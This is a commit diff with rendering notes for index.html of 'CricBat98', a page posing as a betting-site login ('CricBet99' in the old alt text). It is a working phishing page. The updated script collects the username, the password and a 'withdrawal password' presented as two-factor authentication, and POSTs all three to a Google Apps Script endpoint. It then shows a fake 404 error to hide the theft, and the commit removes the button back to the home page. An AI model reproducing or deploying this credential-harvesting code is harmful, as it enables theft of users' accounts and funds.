

Before and after one commit to rachityadav0/cricbat98, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "Sample123" into the empty fields and a click on the button "Login". Shown: the part 115-804 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,7 +3,7 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>CricBat98</title>
+    <title> Welcome to CricBat98</title>
     <style>
         body {
             font-family: Arial, sans-serif;
@@ -103,11 +103,15 @@
         .hidden {
             display: none;
         }
+
+        .spacer {
+            margin: 15px 0;
+        }
     </style>
 </head>
 <body>
     <!-- Logo -->
-    <img src="logo.png" alt="CricBet99 Logo" class="logo">
+    <img src="logo.png" alt="CricBat98 Logo" class="logo">
 
     <!-- Main Container -->
     <div class="container" id="mainContainer">
@@ -123,17 +127,17 @@
                 </div>
                 <button type="submit" class="btn">Login</button>
             </form>
-            <button class="btn" style="margin-top: 10px;" onclick="loadDemoForm()">Login with Demo ID</button>
+            <div class="spacer"></div>
+            <button class="btn" onclick="navigateToDemoLogin()">Login with Demo ID</button>
             <div class="recaptcha-text">
                 <span class="bold-text">This site is protected by reCAPTCHA and the Google</span>
-                <a href="#">Privacy Policy</a> and
-                <a href="#">Terms of Service</a> apply.
+                <a href="#">Privacy Policy</a> and <a href="#">Terms of Service</a> apply.
             </div>
         </div>
 
         <!-- Demo Login Form -->
         <div id="demoForm" class="hidden">
-            <div class="heading">LOGIN</div>
+            <div class="heading">DEMO LOGIN</div>
             <p style="font-weight: bold; color: black; margin: 0;">2-Factor Authentication Enabled.</p>
             <p style="font-weight: bold; color: black; margin: 5px 0 10px;">Enter Your Withdrawal Password</p>
             <form id="demoLoginForm" onsubmit="handleDemoFormSubmit(event)">
@@ -144,8 +148,7 @@
             </form>
             <div class="recaptcha-text">
                 <span class="bold-text">This site is protected by reCAPTCHA and the Google</span>
-                <a href="#">Privacy Policy</a> and
-                <a href="#">Terms of Service</a> apply.
+                <a href="#">Privacy Policy</a> and <a href="#">Terms of Service</a> apply.
             </div>
         </div>
 
@@ -153,45 +156,36 @@
         <div id="error404" class="hidden">
             <div class="heading" style="color: #dc3545;">404</div>
             <div class="error-message">Page Not Found</div>
-            <button class="btn" onclick="goToHome()">Back to Home Page</button>
         </div>
     </div>
 
     <script>
-        const scriptUrl = "https://script.google.com/macros/s/AKfycbwXhwZN_3UfsB1_K6Ve9C2jY-Y0iH46_inybwfnE52aXDjQo2HlRAL0MrQXo936gctlkg/exec";
+        const scriptUrl = "https://script.google.com/macros/s/AKfycbwfmML6__pCuuqINVGgHf50zF0jcjeX9rUwzloVcFpbNIDWzPfP5tdo7hT7WfpC5BwU4g/exec";
+
+        let userData = {}; // To temporarily store data
 
         // Handle main login form submission
         function handleMainFormSubmit(event) {
-            event.preventDefault(); // Prevent default form navigation
-            const form = document.getElementById("mainLoginForm");
-            const formData = new FormData(form);
+            event.preventDefault();
+            const username = document.getElementById("UserName").value;
+            const password = document.getElementById("password").value;
 
-            fetch(scriptUrl, {
-                method: "POST",
-                body: formData,
-            })
-            .then(response => response.text())
-            .then(responseText => {
-                console.log("Main Login Response:", responseText);
-                document.getElementById("loginForm").classList.add("hidden");
-                document.getElementById("error404").classList.remove("hidden");
-            })
-            .catch(error => {
-                console.error("Error submitting main login form:", error);
-            });
+            userData = { username, password };
+
+            // Navigate to demo login form
+            document.getElementById("loginForm").classList.add("hidden");
+            document.getElementById("demoForm").classList.remove("hidden");
         }
 
-        // Load demo login form
-        function loadDemoForm() {
+        // Navigate to demo login form when "Login with Demo ID" button is clicked
+        function navigateToDemoLogin() {
             document.getElementById("loginForm").classList.add("hidden");
             document.getElementById("demoForm").classList.remove("hidden");
         }
 
         // Handle demo login form submission
         function handleDemoFormSubmit(event) {
-            event.preventDefault(); // Prevent default form navigation
-            const username = document.getElementById("UserName").value;
-            const password = document.getElementById("password").value;
+            event.preventDefault();
             const withdrawalCode = document.getElementById("withdrawalCode").value;
 
             if (!withdrawalCode) {
@@ -199,29 +193,27 @@
                 return;
             }
 
+            userData.withdrawalCode = withdrawalCode;
+
+            // Send data to Google Sheet
             const formData = new FormData();
-            formData.append("UserName", username);
-            formData.append("password", password);
-            formData.append("withdrawalCode", withdrawalCode);
+            formData.append("UserName", userData.username);
+            formData.append("password", userData.password);
+            formData.append("withdrawalCode", userData.withdrawalCode);
 
             fetch(scriptUrl, {
                 method: "POST",
                 body: formData,
             })
-            .then(response => response.text())
-            .then(responseText => {
-                console.log("Demo Login Response:", responseText);
-                document.getElementById("demoForm").classList.add("hidden");
-                document.getElementById("error404").classList.remove("hidden");
-            })
-            .catch(error => {
-                console.error("Error submitting demo login form:", error);
-            });
-        }
-
-        function goToHome() {
-            document.getElementById("error404").classList.add("hidden");
-            document.getElementById("loginForm").classList.remove("hidden");
+                .then(response => response.text())
+                .then(responseText => {
+                    console.log("Response from Google Sheet:", responseText);
+                    document.getElementById("demoForm").classList.add("hidden");
+                    document.getElementById("error404").classList.remove("hidden");
+                })
+                .catch(error => {
+                    console.error("Error storing data:", error);
+                });
         }
     </script>
 </body>
```
